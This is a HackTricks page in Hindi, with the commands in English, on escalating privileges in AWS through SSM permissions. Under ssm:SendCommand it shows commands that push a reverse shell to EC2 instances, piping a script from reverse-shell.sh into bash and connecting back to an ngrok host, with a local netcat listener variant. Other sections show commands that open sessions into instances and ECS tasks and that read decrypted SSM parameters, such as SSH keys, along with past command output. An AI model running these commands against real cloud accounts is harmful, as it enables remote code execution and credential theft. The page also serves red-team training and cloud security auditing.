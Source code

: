 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

SSM के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

एक हमलावर जिसके पास अनुमति **`ssm:SendCommand`** है, वह **Amazon SSM एजेंट** चलाने वाले इंस्टेंस में **कमांड निष्पादित कर सकता है** और **इसके अंदर चल रहे IAM भूमिका को समझौता कर सकता है**।
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
यदि आप इस तकनीक का उपयोग पहले से समझौता किए गए EC2 उदाहरण के भीतर विशेषाधिकार बढ़ाने के लिए कर रहे हैं, तो आप बस निम्नलिखित के साथ स्थानीय रूप से रिव शेल कैप्चर कर सकते हैं:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे प्रिवेस्क।

### `ssm:StartSession`

एक हमलावर जिसके पास अनुमति **`ssm:StartSession`** है, वह **Amazon SSM एजेंट चला रहे उदाहरणों में SSH जैसी सत्र शुरू कर सकता है** और **इसके अंदर चल रही IAM भूमिका को समझौता कर सकता है।**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
सत्र शुरू करने के लिए आपको **SessionManagerPlugin** स्थापित करना होगा: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे प्रिवेस्क।

#### ECS पर प्रिवेस्क

जब **ECS कार्य** **`ExecuteCommand` सक्षम** होते हैं, तो पर्याप्त अनुमतियों वाले उपयोगकर्ता `ecs execute-command` का उपयोग करके कंटेनर के अंदर **एक कमांड निष्पादित** कर सकते हैं।\
[**दस्तावेज़**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) के अनुसार, यह उस उपकरण के बीच एक सुरक्षित चैनल बनाकर किया जाता है जिसका उपयोग आप “_exec_“ कमांड शुरू करने के लिए करते हैं और लक्षित कंटेनर के साथ SSM सत्र प्रबंधक। (इस कार्य के लिए SSM सत्र प्रबंधक प्लगइन आवश्यक है)\
इसलिए, `ssm:StartSession` वाले उपयोगकर्ता उस विकल्प को सक्षम करके **ECS कार्यों के अंदर एक शेल प्राप्त** कर सकेंगे, बस चलाकर:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**संभावित प्रभाव:** `ExecuteCommand` सक्षम चल रहे कार्यों से जुड़े `ECS` IAM भूमिकाओं के लिए सीधे प्रिवेस्क।

### `ssm:ResumeSession`

एक हमलावर जिसके पास अनुमति **`ssm:ResumeSession`** है, वह **Amazon SSM एजेंट के साथ चल रहे उदाहरणों में SSH जैसी सत्र को फिर से शुरू कर सकता है** जिसमें **अविचलित** SSM सत्र स्थिति है और **इसके अंदर चल रही IAM भूमिका को समझौता कर सकता है।**
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे प्रिवेस्क को प्रभावित करना जिनमें SSM एजेंट चल रहे हैं और डिस्कनेक्टेड सत्र हैं।

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

उपरोक्त अनुमतियों के साथ एक हमलावर **SSM पैरामीटर** की सूची बनाने और **उन्हें स्पष्ट पाठ में पढ़ने** में सक्षम होगा। इन पैरामीटर में आप अक्सर **संवेदनशील जानकारी** जैसे SSH कुंजी या API कुंजी पा सकते हैं।
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**संभावित प्रभाव:** पैरामीटर के अंदर संवेदनशील जानकारी खोजें।

### `ssm:ListCommands`

इस अनुमति के साथ एक हमलावर सभी **कमांड** सूचीबद्ध कर सकता है और उम्मीद है कि उन पर **संवेदनशील जानकारी** पाए।
```
aws ssm list-commands
```
**संभावित प्रभाव:** कमांड लाइनों के अंदर संवेदनशील जानकारी खोजें।

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

इन अनुमतियों के साथ एक हमलावर सभी **कमांड** की सूची बना सकता है जो भेजी गई हैं और **आउटपुट** को पढ़ सकता है, उम्मीद है कि इसमें **संवेदनशील जानकारी** मिलेगी।
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**संभावित प्रभाव:** कमांड लाइनों के आउटपुट के अंदर संवेदनशील जानकारी खोजें।

### Codebuild

आप SSM का उपयोग करके एक कोडबिल्ड प्रोजेक्ट में भी जा सकते हैं जो बनाया जा रहा है:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
